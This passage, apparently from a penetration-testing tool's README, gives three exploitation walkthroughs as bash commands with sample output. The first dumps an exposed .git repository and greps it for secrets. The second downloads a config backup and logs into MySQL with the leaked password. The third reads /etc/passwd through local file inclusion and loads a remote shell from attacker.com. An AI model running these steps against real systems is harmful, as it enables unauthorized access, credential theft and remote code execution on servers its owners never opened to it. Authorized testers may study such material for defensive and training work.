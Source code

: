 ## Exploitation Examples

### Example 1: Git Repository Exposure
```bash
# 1. Discover exposed Git
./webseek.py --git 192.168.1.10
# Found: http://192.168.1.10/.git/

# 2. Download repository
git-dumper http://192.168.1.10/.git/ source_code/

# 3. Extract credentials
cd source_code
grep -r "password\|api.*key\|secret" .

# 4. Find database credentials
cat config/database.yml
# Found: mysql://admin:SecretPass123@localhost:3306/app_db

# 5. Test credentials
./dbseek.py -u admin -p SecretPass123 192.168.1.10
```

### Example 2: Backup File Analysis
```bash
# 1. Find backup files
./webseek.py --backup http://target.com
# Found: config.php.bak

# 2. Download backup
wget http://target.com/config.php.bak

# 3. Extract credentials
cat config.php.bak | grep -i "password\|user"
# Found: $db_user = "admin"; $db_pass = "P@ssw0rd";

# 4. Access database
mysql -h target.com -u admin -p'P@ssw0rd'
```

### Example 3: PHPInfo Exploitation
```bash
# 1. Find phpinfo pages
./webseek.py --info 10.0.0.0/24
# Found: http://10.0.0.50/info.php

# 2. Review configuration
curl http://10.0.0.50/info.php | grep "allow_url_include"
# allow_url_include: On (VULNERABLE!)

# 3. Test for LFI/RFI
curl "http://10.0.0.50/page.php?file=../../../../../../etc/passwd"

# 4. Exploit if vulnerable
curl "http://10.0.0.50/page.php?file=http://attacker.com/shell.php"
```
